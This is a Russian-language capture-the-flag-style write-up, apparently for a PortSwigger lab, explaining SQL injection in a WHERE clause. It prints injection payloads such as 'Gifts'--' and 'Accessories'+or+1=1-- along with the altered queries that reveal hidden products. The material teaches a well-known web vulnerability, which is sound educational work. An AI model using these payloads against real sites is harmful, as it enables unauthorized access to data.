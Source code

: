 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Theory

<h3>Игнорирование части запроса</h3>

Данный запрос заставляет приложение выполнить SQL-запрос для получения соответсвующих продуктах из базы данных:
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

SQL-запрос просит базу данных вернуть следующее:

* Все детали (*)
* Из таблицы products
* Где категория Gifts
* Которые выпущены (released 1)

Ограничение **released = 1** используется, чтобы скрыть невыпущенные продукты.

Так как приложение не защищено, злоумышленник может использовать следующий эксплоит:
```
https://site/products?category=Gifts'--
```

SQL-запрос будет выглядеть следующим образом:
```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

Ключевым моментом здесь является двойное тире **"--"**, которое в SQL означает комментарий. Это значит, что остальная часть запроса после "--" игнорируется.

<h3>Показывать все продукты, незивисимо от категории</h3>

Для того, чтобы отобразить все продукты независимо от категории можно использовать следующий эксплоит:
```
https://site/products?category=Gifts'+OR+1=1--
```

Запрос будет выгляденть следующим образом:
```
SELECT * FROM products WHERE category = 'Gifts' or 1=1 -- ' AND released = 1
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_vulnerability_in_WHERE_clause_allowing_retrieval_of_hidden_data/assets/1.png)

Выберем пункт Accessories.

![](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_vulnerability_in_WHERE_clause_allowing_retrieval_of_hidden_data/assets/2.png)

Модифицируем запрос, чтобы получить все продукты:
```
/filter?category=Accessories'+or+1=1--
```

Отправляем запрос и получает ответ от сайта

![](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_vulnerability_in_WHERE_clause_allowing_retrieval_of_hidden_data/assets/3.png)


